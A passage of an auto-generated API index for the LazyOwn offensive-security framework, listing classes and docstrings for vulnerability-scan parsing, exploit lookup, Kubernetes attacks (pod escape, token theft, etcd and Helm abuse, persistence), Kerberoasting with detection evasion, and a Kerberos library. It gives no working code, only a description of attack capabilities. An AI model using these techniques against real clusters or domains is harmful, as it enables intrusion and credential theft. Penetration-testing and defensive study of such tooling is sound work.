**File Doc:** *Nuclei JSON output parser — feeds scan results into DB, WorldModel, and recommender.  Parses nuclei ``-json`` / ``-jsonl`` output and enriches the LazyOwn campaign database (``modules/db.py``) and WorldModel (``modules/world_model.py``) with discovered vulnerabilities.  Design (SOLID): - Single Responsibility: NucleiParser only parses nuclei output. - Open/Closed: new finding types via Finding subclass. - Liskov: any DB interface can replace LazyOwnDB. - Interface Segregation: parse(), import_findings(), enrich_world_model(). - Dependency Inversion: depends on abstract DB interface, not concrete SQLite.  Usage: from modules.integrations.nuclei_parser import NucleiParser  parser = NucleiParser() findings = parser.parse_file("sessions/nuclei_10.10.11.5.json") imported = parser.import_to_db(findings, rhost="10.10.11.5") parser.enrich_world_model(findings, rhost="10.10.11.5")*

**Classes:**
- `NucleiFinding` (line 71) `class NucleiFinding`
- `NucleiParser` (line 99) `class NucleiParser` - *Parses nuclei JSON/JSONL output and imports into LazyOwn.

Supports both single-line JSON objects per finding (``-jsonl``)
and arrays of JSON objects (``-json``).

Attributes:
    sessions_dir: Base sessions directory for output files.*

**Methods:**
- `mitre_tactic` (line 87) `def mitre_tactic(self)`
- `exploit_probability` (line 95) `def exploit_probability(self)`
- `__init__` (line 109) `def __init__(self, sessions_dir)`
- `parse_text` (line 115) `def parse_text(self, text)` - *Parse raw nuclei text output (table format).

Args:
    text: Raw text from nuclei stdout.

Returns:
    List of parsed NucleiFinding objects.*
- `parse_json` (line 134) `def parse_json(self, json_text)` - *Parse nuclei JSON output (``-jsonl`` or ``-json`` format).

Supports both newline-delimited JSON (JSONL) and JSON arrays.

Args:
    json_text: JSON or JSONL formatted nuclei output.

Returns:
    List of parsed NucleiFinding objects.*
- `parse_file` (line 177) `def parse_file(self, filepath)` - *Parse nuclei output from a file (auto-detects format).

Args:
    filepath: Path to nuclei output file.

Returns:
    List of parsed NucleiFinding objects.*
- `import_to_db` (line 196) `def import_to_db(self, findings, rhost, workspace_name)` - *Import parsed findings into the LazyOwnDB vulnerabilities table.

Args:
    findings: Parsed NucleiFinding list.
    rhost: Target IP for host association.
    workspace_name: DB workspace to use.

Returns:
    Number of vulnerabilities imported.*
- `enrich_world_model` (line 262) `def enrich_world_model(self, findings, rhost)` - *Feed parsed findings into the WorldModel for autonomous decision-making.

Args:
    findings: Parsed NucleiFinding list.
    rhost: Target IP.

Returns:
    Number of findings added to the world model.*
- `generate_recommendations` (line 300) `def generate_recommendations(self, findings, rhost)` - *Generate actionable LazyOwn command recommendations from findings.

Args:
    findings: Parsed NucleiFinding list.
    rhost: Target IP for command placeholders.

Returns:
    List of recommendation dicts with command, confidence, and reason.*
- `scan_and_import` (line 328) `def scan_and_import(self, target, templates, services, cves, workspace_name)` - *Run nuclei scan against target, parse output, and import to DB/WorldModel.

This is the high-level entry point: run + parse + import + recommend
in a single call.

Args:
    target: Host to scan.
    templates: Specific nuclei templates to run (auto-selects if None).
    services: Service names to match templates against.
    cves: CVE IDs to match templates against.
    workspace_name: DB workspace.

Returns:
    Dict with keys: findings (list), imported (int), recommendations (list).*
- `_parse_line` (line 393) `def _parse_line(self, line)`
- `_parse_json_obj` (line 412) `def _parse_json_obj(self, obj)`
- `_recommend_for_finding` (line 468) `def _recommend_for_finding(self, finding, rhost)`
- `_finding_to_dict` (line 504) `def _finding_to_dict(finding)`
- `_summarize` (line 517) `def _summarize(findings)`

#### `searchsploit.py`
**Path:** `modules/integrations/searchsploit.py`
**File Doc:** *modules/integrations/searchsploit.py ====================================== Bridges searchsploit CLI and ExploitDB with LazyOwn CVE/finding data.  Design (SOLID) -------------- - Single Responsibility : each class owns one source or one operation - Open/Closed           : new exploit sources via ExploitSource subclass - Liskov                : SearchsploitCLI and ExploitDBAPI honour the same contract - Interface Segregation : consumers import ExploitSource, not concrete types - Dependency Inversion  : SearchsploitClient depends on ExploitSource abstraction  Usage ----- from modules.integrations.searchsploit import get_client, search_cve  entries = search_cve("CVE-2021-41773") for e in entries: print(e.id, e.title)  # CLI: python3 modules/integrations/searchsploit.py --cve CVE-2021-41773 python3 modules/integrations/searchsploit.py --service apache --version 2.4.49*

**Classes:**
- `ExploitEntry` (line 60) `class ExploitEntry` - *Represents a single exploit found in ExploitDB or searchsploit.*
- `ExploitSource` (line 76) `class ExploitSource(ABC)` - *Interface for any exploit lookup back-end.*
- `SearchsploitCLI` (line 93) `class SearchsploitCLI(ExploitSource)` - *Runs ``searchsploit --json <query>`` and parses the result.

Falls back gracefully to an empty list if searchsploit is not installed.
Handles both the legacy (RESULTS_EXPLOIT / RESULTS_SHELLCODE) and
new (data) top-level key formats.*
- `ExploitDBAPI` (line 193) `class ExploitDBAPI(ExploitSource)` - *Queries the ExploitDB search endpoint directly.

Disabled gracefully when *requests* is not available.
Enforces a 2-second rate limit between calls.*
- `SearchsploitClient` (line 271) `class SearchsploitClient` - *Facade that tries SearchsploitCLI first, falls back to ExploitDBAPI.

Provides high-level helpers consumed by the rest of LazyOwn.*

**Functions:**
- `get_client` (line 333) `def get_client()` - *Return the module-level SearchsploitClient singleton.*
- `search_cve` (line 341) `def search_cve(cve_id)` - *Module-level convenience: search by CVE id.*
- `search_service` (line 346) `def search_service(name, version)` - *Module-level convenience: search by service name and version.*
- `_main` (line 356) `def _main()`

**Methods:**
- `search_cve` (line 80) `def search_cve(self, cve_id)` - *Return exploits matching *cve_id* (e.g. 'CVE-2021-41773').*
- `search_service` (line 84) `def search_service(self, name, version)` - *Return exploits matching the service *name* and optional *version*.*
- `__init__` (line 102) `def __init__(self)`
- `search_cve` (line 109) `def search_cve(self, cve_id)`
- `search_service` (line 112) `def search_service(self, name, version)`
- `_run` (line 118) `def _run(self, query)`
- `_parse` (line 133) `def _parse(self, raw)`
- `_row_to_entry` (line 162) `def _row_to_entry(self, row)`
- `_extract_cve` (line 183) `def _extract_cve(text)`
- `__init__` (line 201) `def __init__(self)`
- `search_cve` (line 207) `def search_cve(self, cve_id)`
- `search_service` (line 210) `def search_service(self, name, version)`
- `_query` (line 218) `def _query(self, cve_id)`
- `_rate_limit` (line 258) `def _rate_limit()`
- `__init__` (line 278) `def __init__(self, primary, fallback)`
- `search_cve` (line 286) `def search_cve(self, cve_id)` - *Return exploits for *cve_id*, trying CLI then API.*
- `search_service` (line 293) `def search_service(self, name, version)` - *Return exploits for *name*/*version*, trying CLI then API.*
- `enrich_findings` (line 300) `def enrich_findings(self, findings)` - *Takes an ObsParser Finding list, extracts CVEs and service_versions,
returns ``{cve_or_service: [ExploitEntry, ...]}``.*

#### `intel_fusion.py`
**Path:** `modules/intel_fusion.py`
**File Doc:** *Sessions attack-intel fusion: data -> information -> intelligence.  Reads every campaign artefact under ``sessions/`` (world model, lazy loop graphs, objectives, scans, event logs) and fuses them into ONE heterogeneous graph centred on the LazyOwn C2: hosts, ports/services, findings, loop tasks and objectives. Every node carries a deterministic id (``sha1(kind:value)``) and every edge an ``evidence`` string naming the source artefact, so each relation is traceable like a provenance-tracked research graph.  Payload shape mirrors ReadMenator ``ForceGraphRenderer.build_payload`` so ``templates/intel.html`` (a clone of ReadMenator ``_forcegraph_page``) can reuse the exact same engine, physics sizes, glyphs, colors, legend and inspector: file nodes carry ``family``/``layer``/``language``/``rank``/ ``doc``/``symbol_list``; community and layer hub nodes plus ``member_of`` / ``layered_as`` structural edges are appended automatically.*

**Functions:**
- `_family_color` (line 95) `def _family_color(name)` - *Stable dusty HSL color from a community name (djb2, full hue wheel).*
- `node_id` (line 106) `def node_id(kind, value)` - *Deterministic node id from kind + normalized value.*
- `_load_json` (line 112) `def _load_json(path, default)` - *Load JSON or return default on any failure.*
- `_read_lines` (line 122) `def _read_lines(path, limit)` - *Read tail JSONL rows, skipping malformed lines.*
- `_host_mentions` (line 139) `def _host_mentions(text)` - *Extract IPv4 literals from a blob of log text.*
- `_file_pagerank` (line 146) `def _file_pagerank(ids, pairs, alpha, max_iter, tol)` - *PageRank over node ids (same contract as ReadMenator rank).*
- `build_intel_graph` (line 176) `def build_intel_graph(sessions_dir, est_cap)` - *Fuse all session artefacts into one C2-centred intel graph.*
- `_node_doc` (line 390) `def _node_doc(node)` - *Bounded purpose string for the inspector (ReadMenator contract).*
- `_symbol_list` (line 413) `def _symbol_list(node)` - *Compact symbol records for the inspector (max 40).*
- `_enrich_readmenator_fields` (line 428) `def _enrich_readmenator_fields(nodes, edges)` - *Add ReadMenator explorer fields in place (type/file/layer/rank/doc).*
- `group_colors` (line 512) `def group_colors(graph)` - *Stable colors for layer/language groupings (ReadMenator contract).*
- `page_settings` (line 528) `def page_settings(graph)` - *Explorer page settings with ReadMenator physics sizes (exact values).*
- `build_analytics` (line 585) `def build_analytics(graph, summary)` - *Side-panel analytics (attribution funnel + intel summary).*
- `_fibonacci_sphere` (line 610) `def _fibonacci_sphere(count)` - *Nearly uniform unit vectors on a golden-angle spiral, north to south.*
- `_split_caps` (line 626) `def _split_caps(labels, sizes, points, lattice, out)` - *Bisect lattice points between runs of groups of matching size.*
- `_unit` (line 651) `def _unit(vec)` - *Normalize a 3D vector (zero vectors map to the south pole).*
- `build_bundle_payload` (line 659) `def build_bundle_payload(graph)` - *Derive the circular/spherical bundle payload from a fused graph.

Communities keep size order (largest first); ``misc`` nodes form a
trailing unassigned group. Inside a group files are ordered by rank,
so hubs sit at the center of their arc and cap. Edges are distinct
directed file index pairs.*
- `bundle_settings` (line 769) `def bundle_settings(graph)` - *Bundle page settings with ReadMenator sizes (exact values).*
- `assign_layout` (line 800) `def assign_layout(graph, mode)` - *Attach x/y/z for radial/spherical modes; force modes stay free.

Accepts ReadMenator layout names (``force``, ``cluster``, ``radial``,
``dag``) plus legacy intel names (``force2d``, ``force3d``,
``circular``, ``spherical``). Force-family modes return without preset
positions so the client physics (charge -300, distance 120, 400 ticks
+ fit-to-view) places every graph on screen.*
- `write_summary` (line 865) `def write_summary(graph, sessions_dir)` - *Score host exposure and suggest intents for the autonomous planner.*
- `add_node` (line 183) `def add_node(kind, value, label)` - *Insert node or merge extra fields into the existing one.*
- `add_edge` (line 197) `def add_edge(src, dst, kind, evidence, weight)` - *Append one provenance-tagged relation.*
- `tag_source` (line 205) `def tag_source(nid, source)` - *Record a corroborating artefact on a node, deduped.*

#### `intelligence_engine.py`
**Path:** `modules/intelligence_engine.py`
**File Doc:** *IntelligenceEngine — unified collection→analysis→intelligence pipeline.  Transforms raw data from nmap, tool output, EStorides, Nuclei, YARA, and the FactStore into graded intelligence that feeds the WorldModel and produces actionable recommendations. Closes the gap between data collection and operational decision-making.  Architecture ============ Collection        →   Analysis          →   Intelligence (nmap, obs,       →   (correlate,       →   (grade, map to estorides,          rank, link)            MITRE, recommend) nuclei, yara, freedom, facts)  CounterIntelligence                   Dissemination (exposure, detection, evasion)   →    (world model, killchain, MISP)  Design ====== - Single Responsibility : one file, one contract, one engine - Config class owns all thresholds and paths — zero magic numbers - Collection adapters are injected, not hardcoded - WorldModel is written to directly via get_world_model() - Thread-safe via the WorldModel's RLock  Usage ===== from modules.intelligence_engine import IntelligenceEngine*

**Classes:**
- `IntelligenceConfig` (line 57) `class IntelligenceConfig` - *Centralized configuration for the intelligence pipeline.*
- `CollectedFact` (line 78) `class CollectedFact` - *A single piece of raw data collected from any source.*
- `IntelligenceAssessment` (line 93) `class IntelligenceAssessment` - *Graded intelligence produced from correlated facts.*
- `CounterIntelFinding` (line 108) `class CounterIntelFinding` - *What we exposed, what detected us, how to evade.*
- `IntelligenceEngine` (line 119) `class IntelligenceEngine` - *Unified intelligence pipeline for the LazyOwn framework.

Collects raw data from all available sources, analyzes correlations,
produces graded intelligence with MITRE mappings, assesses counter-
intelligence exposure, and disseminates structured results to the
WorldModel and killchain.

Public API:
    collect_from_scan(target)      — parse nmap XML into facts
    collect_from_tool(output, ...) — parse tool output via ObsParser
    collect_from_estorides(target) — run estorides OSINT aggregator
    collect_from_nuclei(target)    — run nuclei vulnerability scan
    collect_from_yara(path)        — scan with YARA rules
    collect_from_factstore()       — ingest policy_facts.json
    analyze()                      — correlate and rank findings
    produce_intelligence()         — grade and map to MITRE
    produce_counter_intelligence() — assess exposure
    disseminate()                  — update WorldModel + killchain
    run_full_cycle(target)         — collect → analyze → intel → disseminate
    get_intel_report()             — structured JSON report*

**Functions:**
- `get_intelligence_engine` (line 931) `def get_intelligence_engine(config)` - *Return the module-level singleton IntelligenceEngine.*

**Methods:**
- `__init__` (line 142) `def __init__(self, config)`
- `collect_from_scan` (line 153) `def collect_from_scan(self, target)` - *Parse nmap XML into structured facts.

Args:
    target: Target IP or hostname.

Returns:
    List of collected facts.*
- `collect_from_tool` (line 255) `def collect_from_tool(self, output, tool, host)` - *Parse tool output into structured facts using ObsParser.

Args:
    output: Raw tool output text.
    tool: Tool name that produced the output.
    host: Target host.

Returns:
    List of collected facts.*
- `collect_from_estorides` (line 292) `def collect_from_estorides(self, target)` - *Run estorides OSINT aggregator and collect findings.

Args:
    target: Domain or IP to investigate.

Returns:
    List of collected OSINT facts.*
- `collect_from_nuclei` (line 334) `def collect_from_nuclei(self, target)` - *Run nuclei vulnerability scanner and collect findings.

Args:
    target: Target URL or host.

Returns:
    List of collected vulnerability facts.*
- `collect_from_yara` (line 376) `def collect_from_yara(self, target_path)` - *Scan with YARA rules and collect IOC matches.

Args:
    target_path: File or directory to scan.

Returns:
    List of collected IOC facts.*
- `collect_from_factstore` (line 415) `def collect_from_factstore(self)` - *Ingest structured facts from FactStore policy_facts.json.

Returns:
    List of collected facts.*
- `analyze` (line 477) `def analyze(self)` - *Correlate collected facts into structured intelligence.

Links services to known vulnerabilities, credentials to hosts,
domains to infrastructure, and ranks targets by value.

Returns:
    List of intelligence assessments.*
- `_correlate_services_to_vulns` (line 494) `def _correlate_services_to_vulns(self)`
- `_match_known_vulns` (line 537) `def _match_known_vulns(fact)`
- `_correlate_creds_to_hosts` (line 565) `def _correlate_creds_to_hosts(self)`
- `_correlate_domains_to_infrastructure` (line 588) `def _correlate_domains_to_infrastructure(self)`
- `_rank_targets` (line 604) `def _rank_targets(self)`
- `_detect_killchain_gaps` (line 644) `def _detect_killchain_gaps(self)`
- `produce_intelligence` (line 685) `def produce_intelligence(self)` - *Grade and enrich intelligence assessments with MITRE mappings.

Returns:
    Graded intelligence assessments.*
- `_map_category_to_mitre` (line 700) `def _map_category_to_mitre(category)`
- `produce_counter_intelligence` (line 715) `def produce_counter_intelligence(self)` - *Assess what we exposed and what can detect us.

Returns:
    Counter-intelligence findings.*
- `disseminate` (line 765) `def disseminate(self)` - *Write intelligence to WorldModel, killchain, and report file.

Returns:
    Dissemination summary.*
- `run_full_cycle` (line 845) `def run_full_cycle(self, target)` - *Execute the complete intelligence cycle for a target.

Collects from all available sources, analyzes correlations, produces
graded intelligence, assesses counter-intelligence exposure, and
disseminates structured results to the WorldModel.

Args:
    target: Target IP or hostname.

Returns:
    Full cycle summary with counts and warnings.*
- `get_intel_report` (line 874) `def get_intel_report(self)` - *Produce a structured JSON intelligence report.

Returns:
    Dict with facts, assessments, counter-intel, and warnings.*
- `_is_placeholder` (line 925) `def _is_placeholder(value)`

#### `intercept.py`
**Path:** `modules/intercept.py`
**File Doc:** *User-configurable tool-call interception layer with human-in-loop approvals.  Ports the LAZY ``guard`` + ``intercept`` contracts to LazyOwn idioms: every autonomous tool call passes through :meth:`Interceptor.evaluate` before execution. Three actions are supported: allow, deny, ask. Ask creates a pending record that an operator approves or denies, optionally with a timeout that resolves to a safe default.*

**Classes:**
- `InterceptAction` (line 21) `class InterceptAction(str, Enum)` - *Possible outcomes of rule evaluation.*
- `InterceptConfig` (line 33) `class InterceptConfig` - *Centralized constants for interception behavior.*
- `InterceptRule` (line 50) `class InterceptRule` - *Single user-configurable interception rule.*
- `PendingApproval` (line 77) `class PendingApproval` - *Pending human-in-loop approval request.*
- `InterceptVerdict` (line 92) `class InterceptVerdict` - *Result of evaluating a tool call.*
- `Interceptor` (line 154) `class Interceptor` - *Evaluate tool calls against prioritized user rules.*
- `Guard` (line 255) `class Guard` - *Audit every gated tool call and attribute failures.*

**Functions:**
- `builtin_rules` (line 101) `def builtin_rules()` - *Return the default destructive and exfiltration guard rules.*
- `scope_blocked` (line 131) `def scope_blocked(target)` - *Return the matching global scope suffix or empty (LAZY parity).*
- `observe_post_tool` (line 144) `def observe_post_tool(output)` - *Classify post-execution output (LAZY Guard.postToolUse parity).*

**Methods:**
- `__post_init__` (line 61) `def __post_init__(self)` - *Validate action and pre-compile regex patterns.*
- `matches` (line 68) `def matches(self, tool, command)` - *Return True when this rule matches the tool call surface.*
- `__init__` (line 157) `def __init__(self, rules, ask_timeout_sec, timeout_action)` - *Initialize with rules sorted by descending priority.*
- `rules` (line 172) `def rules(self)` - *Return a copy of the active rule list.*
- `add_rule` (line 177) `def add_rule(self, rule)` - *Add a rule and keep priority ordering.*
- `remove_rule` (line 183) `def remove_rule(self, pattern)` - *Remove the first rule matching pattern text.*
- `evaluate` (line 192) `def evaluate(self, tool, command)` - *Evaluate a tool call and return the verdict.*
- `decide` (line 220) `def decide(self, approval_id, decision)` - *Resolve a pending approval with approve or deny.*
- `pending_approvals` (line 234) `def pending_approvals(self)` - *List unresolved approvals, expiring timed-out ones per policy.*
- `approval_status` (line 249) `def approval_status(self, approval_id)` - *Fetch a single approval record by id.*
- `__init__` (line 258) `def __init__(self, interceptor)` - *Initialize audit log with an optional interceptor.*
- `interceptor` (line 266) `def interceptor(self)` - *Expose the underlying interceptor.*
- `check` (line 270) `def check(self, tool, command)` - *Audit the call then evaluate intercept rules (trace id kept).*
- `observe` (line 282) `def observe(self, output, source)` - *Classify output and attribute blocked/error counters.*
- `record_failure` (line 291) `def record_failure(self, source)` - *Attribute a post-execution failure to a source.*
- `audit_log` (line 296) `def audit_log(self, limit)` - *Return the most recent audit entries.*
- `attribution` (line 301) `def attribution(self)` - *Return failure attribution counters.*

#### `jsonl_tail.py`
**Path:** `modules/jsonl_tail.py`
**File Doc:** *Incremental JSONL reader shared by the monitor TUI and the loop runner.  The activity log only ever appends, so a byte offset is a stable cursor: each reader keeps its own offset and returns only complete records, tolerating a partially written final line.*

**Classes:**
- `JsonlTail` (line 14) `class JsonlTail` - *Incremental JSONL reader that tolerates partially-written lines.*

**Methods:**
- `__init__` (line 17) `def __init__(self, path)` - *Bind the tail to one file path.*
- `read_new` (line 22) `def read_new(self, limit)` - *Return new complete records since the last call.*

#### `jwtexploit.py`
**Path:** `modules/jwtexploit.py`

*No symbols extracted*

#### `k8s_attacks.py`
**Path:** `modules/k8s_attacks.py`
**File Doc:** *Kubernetes attack module — RBAC enumeration, pod escape, etcd access, Helm abuse.  Provides attack primitives for Kubernetes clusters: RBAC privilege enumeration, pod escape techniques (privileged containers, hostPath, hostNetwork, hostPID), etcd database access, Helm Tiller exploitation, kubelet anonymous auth abuse, service account token theft across namespaces, and admission controller bypass.  All techniques are organized by threat matrix category with detection notes for blue team awareness.*

**Classes:**
- `K8sConfig` (line 57) `class K8sConfig` - *Configuration for Kubernetes attack operations.

Attributes:
    cluster_url: Kubernetes API server URL.
    kubeconfig_path: Path to kubeconfig file.
    namespace: Target namespace.
    pod_name: Target pod name.
    token: Service account token.
    certificate_authority: CA certificate for verification.*
- `K8SAttackEngine` (line 77) `class K8SAttackEngine` - *Execute Kubernetes privilege escalation and enumeration attacks.

Provides RBAC enumeration, pod escape vectors, etcd exploitation,
and service account token abuse across namespaces.

Attributes:
    config: K8sConfig with cluster and auth details.*

**Methods:**
- `__init__` (line 87) `def __init__(self, config)`
- `enumerate_rbac` (line 90) `def enumerate_rbac(self)` - *Enumerate RBAC permissions for the current identity.

Maps ClusterRoles, Roles, RoleBindings, and ClusterRoleBindings
to identify privilege escalation paths.

Returns:
    Dict with RBAC enumeration commands and findings.*
- `privileged_pod_escape` (line 118) `def privileged_pod_escape(self)` - *Plan a privileged pod escape.

If the user can create pods with privileged:true, hostPath mounts,
hostPID, or hostNetwork, they can escape to the underlying node.

Returns:
    Dict with pod manifest and escape commands.*
- `service_account_token_theft` (line 173) `def service_account_token_theft(self)` - *Steal service account tokens across namespaces for lateral movement.

If the attacker has list/get secrets access, they can extract
service account tokens from any namespace.

Returns:
    Dict with token theft techniques.*
- `kubelet_anonymous_auth_abuse` (line 198) `def kubelet_anonymous_auth_abuse(self)` - *Exploit kubelet anonymous authentication.

If the kubelet has anonymous access enabled (--anonymous-auth=true),
attackers can execute commands on pods and nodes directly.

Returns:
    Dict with kubelet exploitation commands.*
- `etcd_access_exploitation` (line 222) `def etcd_access_exploitation(self)` - *Exploit etcd database access for complete cluster compromise.

etcd stores all Kubernetes objects including Secrets, ServiceAccount
tokens, and certificates. Direct etcd access bypasses all RBAC.

Returns:
    Dict with etcd exploitation commands.*
- `helm_tiller_abuse` (line 250) `def helm_tiller_abuse(self)` - *Abuse Helm (v2 Tiller or v3 RBAC) for privilege escalation.

Helm v2's Tiller component runs with cluster-admin by default.
Helm v3 uses the user's kubeconfig but still needs extensive RBAC.

Returns:
    Dict with Helm abuse techniques.*
- `persistence_techniques` (line 278) `def persistence_techniques(self)` - *Kubernetes persistence techniques for long-term access.

Returns:
    Dict with persistence methods and their manifests.*
- `summary` (line 318) `def summary(self)`

#### `kerberoasting.py`
**Path:** `modules/kerberoasting.py`
**File Doc:** *Advanced Kerberoasting — targeted SPN enumeration, AES-only attacks, hashcat integration.  Provides enhanced Kerberoasting capabilities beyond impacket GetNPUsers: targeted SPN list generation, AES-only Kerberoasting (avoids weak RC4 detection rules), automatic hashcat mode selection, and TGS-REP parsing for offline cracking optimization.  Integrates with KerberosCore for native ticket requests and hash extraction.*

**Classes:**
- `KerberoastTarget` (line 38) `class KerberoastTarget` - *A kerberoastable service principal.

Attributes:
    sam_account_name: Service account sAMAccountName.
    service_principal_name: SPN string.
    password_last_set: When the password was last changed.
    last_logon: Last interactive logon timestamp.
    member_of: Group memberships (check for high-value groups).
    supports_aes: Whether AES encryption was observed.*
- `KerberoastHash` (line 59) `class KerberoastHash` - *Extracted Kerberoast hash ready for cracking.

Attributes:
    spn: Service principal name.
    username: Service account name.
    hash_string: Hash in Hashcat format (mode 13100/19600/19700).
    etype: Encryption type used.
    hashcat_mode: Hashcat mode number.
    hashcat_command: Ready-to-use hashcat command.*
- `KerberoastingEngine` (line 79) `class KerberoastingEngine` - *Advanced Kerberoasting — enumeration, ticket requesting, and hash extraction.

Performs targeted Kerberoasting by enumerating SPNs from Active Directory,
requesting TGS tickets with configurable encryption types, and extracting
hashes in Hashcat/John-compatible formats for offline cracking.

Attributes:
    domain: Target domain FQDN.
    dc_ip: Domain controller IP.
    username: Authenticated domain user.
    password: User password.
    hash: User NT hash (alternative to password).
    kerberos: Underlying KerberosCore instance.*

**Functions:**
- `priority` (line 172) `def priority(target)`

**Methods:**
- `__init__` (line 95) `def __init__(self, domain, dc_ip, username, password, hash)`
- `enumerate_spns` (line 112) `def enumerate_spns(self, ldap_output, bloodhound_data)` - *Enumerate kerberoastable service principals.

Parses LDAP queries or BloodHound data to identify service accounts
with SPNs. Prioritizes high-value targets (Domain Admins, service
accounts with weak passwords).

Args:
    ldap_output: Raw LDAP search results text.
    bloodhound_data: BloodHound user node dicts.

Returns:
    Sorted list of KerberoastTarget (high-value first).*
- `_prioritize_targets` (line 169) `def _prioritize_targets(self)`
- `request_tgs_aes_only` (line 187) `def request_tgs_aes_only(self, user_spn)` - *Request a TGS ticket using only AES encryption (evades RC4 detection).

AES-only Kerberoasting avoids triggering detection rules that
monitor for RC4-HMAC ticket requests.

Args:
    user_spn: Target service principal name.

Returns:
    KerberoastHash with AES256 hash, or None if request fails.*
- `request_tgs_rc4` (line 208) `def request_tgs_rc4(self, user_spn)` - *Request a TGS ticket using RC4-HMAC (mode 13100 for Hashcat).

Args:
    user_spn: Target service principal name.

Returns:
    KerberoastHash with RC4 hash.*
- `request_tgs` (line 219) `def request_tgs(self, user_spn, etype)` - *Request a TGS service ticket for kerberoasting.

Args:
    user_spn: Service principal name (e.g. 'MSSQLSvc/db01.domain.local').
    etype: Requested encryption type (23=RC4, 18=AES256, 17=AES128).

Returns:
    KerberoastHash with the extracted hash for offline cracking.*
- `_build_hash_string` (line 248) `def _build_hash_string(self, spn, etype)`
- `_hashcat_command` (line 268) `def _hashcat_command(hash_str, mode)`
- `targeted_kerberoast` (line 271) `def targeted_kerberoast(self, high_value_only)` - *Perform targeted Kerberoasting on enumerated SPNs.

Requests tickets for all discovered targets, prioritizing high-value
accounts. Supports both AES-only and RC4 modes.

Args:
    high_value_only: Only roast high-value targets (domain admins, etc.).

Returns:
    List of extracted KerberoastHash objects for cracking.*
- `asreproast_check` (line 306) `def asreproast_check(self, usernames)` - *Check which users do NOT require Kerberos pre-authentication (AS-REP roastable).

Users without pre-auth can have their AS-REP encrypted with their
password hash, allowing offline cracking without any authentication.

Args:
    usernames: List of usernames to check.

Returns:
    List of usernames that do not require pre-authentication.*
- `extract_hashes_from_pcap` (line 321) `def extract_hashes_from_pcap(self, pcap_path)` - *Extract Kerberoast hashes from a PCAP/PCAPNG network capture.

Parses TGS-REP packets from network traffic to extract ticket
hashes without performing active Kerberoasting.

Args:
    pcap_path: Path to the PCAP file.

Returns:
    List of extracted KerberoastHash objects.*
- `detect_kerberoasting_activity` (line 336) `def detect_kerberoasting_activity(self, event_log)` - *Analyze Windows Event Logs for signs of Kerberoasting attacks.

Event ID 4769 (service ticket request) with Ticket Encryption 0x17
(RC4-HMAC) is a strong indicator of Kerberoasting.

Args:
    event_log: Raw Windows security event log text.

Returns:
    Dict with detected indicators and risk assessment.*
- `build_hashcat_batch` (line 379) `def build_hashcat_batch(self, output_path)` - *Build a batch file with all extracted hashes for Hashcat cracking.

Args:
    output_path: File path to write the hash file.

Returns:
    Hashcat command for batch cracking.*
- `summary` (line 401) `def summary(self)` - *Return a summary of kerberoasting operations.

Returns:
    Dict with target count, hash count, hashcat modes, and SPN list.*

#### `kerberos_core.py`
**Path:** `modules/kerberos_core.py`
**File Doc:** *Native Kerberos protocol library — AS-REQ, TGS-REQ, ticket parsing, encryption.  Provides a pure-Python Kerberos implementation for Active Directory attacks without depending on impacket or external tools. Implements the KDC message exchange protocol (AS-REQ/AS-REP, TGS-REQ/TGS-REP), ticket decryption with known keys, PAC parsing, and service ticket manipulation.  Requires pyasn1 and cryptography for ASN.1 handling and crypto operations.*

**Classes:**
- `KerberosPrincipal` (line 139) `class KerberosPrincipal` - *Kerberos principal name (user, service, or host).

Attributes:
    name: Principal name component (e.g. 'Administrator', 'cifs').
    realm: Kerberos realm (domain name uppercase).
    name_type: NT_PRINCIPAL (1), NT_SRV_INST (2), etc.*
- `EncryptedData` (line 157) `class EncryptedData` - *Kerberos EncryptedData structure.

Attributes:
    etype: Encryption type.
    kvno: Key version number.
    cipher: Encrypted ciphertext bytes.*
- `KerberosTicket` (line 172) `class KerberosTicket` - *Parsed Kerberos service ticket.

Attributes:
    tkt_vno: Ticket version number (5).
    realm: Realm that issued the ticket.
    sname: Service principal name.
    flags: Ticket flags bitmask.
    key: Session key encrypted data.
    crealm: Client realm.
    cname: Client principal name.
    transited: Transited realms.
    authtime: Authentication timestamp.
    starttime: Validity start time.
    endtime: Expiration time.
    renew_till: Renewable until time.
    authorization_data: PAC and other authz data.
    enc_part: Encrypted portion of the ticket.*
- `PACSignature` (line 213) `class PACSignature` - *PAC signature data for validation.

Attributes:
    type: Signature type (kdc, server, privilege server).
    signature: Raw signature bytes.
    rodc_identifier: RODC identifier if present.*
- `PACInfo` (line 228) `class PACInfo` - *Parsed Privilege Attribute Certificate (PAC).

Attributes:
    logon_info: User SID, groups, domain info.
    client_info: Client name and ID.
    server_checksum: Server signature.
    privsvr_checksum: Privilege server signature.
    upn_dns_info: UPN and DNS info.
    attributes: Extra PAC attributes.*
- `TGSRequest` (line 249) `class TGSRequest` - *Parameters for a TGS-REQ service ticket request.

Attributes:
    target_service: Service name (e.g. 'cifs/DC01.domain.com').
    realm: Domain realm.
    tgt: Encrypted TGT ticket bytes.
    session_key: TGT session key bytes.
    etype: Requested encryption type.
    additional_tickets: Additional tickets for S4U.
    include_pac: Request PAC in the response.*
- `KerberosCrypto` (line 271) `class KerberosCrypto` - *Kerberos cryptographic operations — key derivation, encryption, checksums.

Implements RFC 3961 and RFC 3962 for AES encryption types.*
- `KerberosCore` (line 407) `class KerberosCore` - *Native Kerberos protocol client for Active Directory operations.

Handles AS-REQ/AS-REP for TGT retrieval, TGS-REQ/TGS-REP for service
tickets, ticket parsing, and PAC extraction. Works standalone without
impacket — uses pyasn1 for DER encoding and cryptography for crypto.

Attributes:
    domain: Kerberos realm (domain uppercase).
    dc_host: Domain controller hostname or IP.
    dc_ip: Domain controller IP address.
    crypto: KerberosCrypto instance for key operations.*
- `KerberosErrorParser` (line 683) `class KerberosErrorParser` - *Parse KRB-ERROR messages from KDC responses.*
- `TicketValidator` (line 702) `class TicketValidator` - *Validate Kerberos tickets — expiration, flags, PAC signatures.*

**Methods:**
- `to_string` (line 152) `def to_string(self)`
- `has_flag` (line 207) `def has_flag(self, flag_name)`
- `__init__` (line 277) `def __init__(self)`
- `derive_aes_key` (line 282) `def derive_aes_key(password, salt, etype)` - *Derive an AES Kerberos key from a password using string-to-key.

Args:
    password: User's plaintext password.
    salt: Kerberos salt (realm + username).
    etype: Encryption type (17 = AES128, 18 = AES256).

Returns:
    Derived key bytes.*
- `derive_rc4_key` (line 318) `def derive_rc4_key(password)` - *Derive RC4-HMAC Kerberos key from password (hash = MD4(UTF16LE(password))).

Args:
    password: Plaintext password.

Returns:
    16-byte RC4 key (NT hash).*
- `aes_encrypt` (line 329) `def aes_encrypt(self, key, plaintext, usage)` - *AES encrypt with Kerberos ciphertext stealing (CTS) mode.

Args:
    key: AES encryption key.
    plaintext: Data to encrypt.
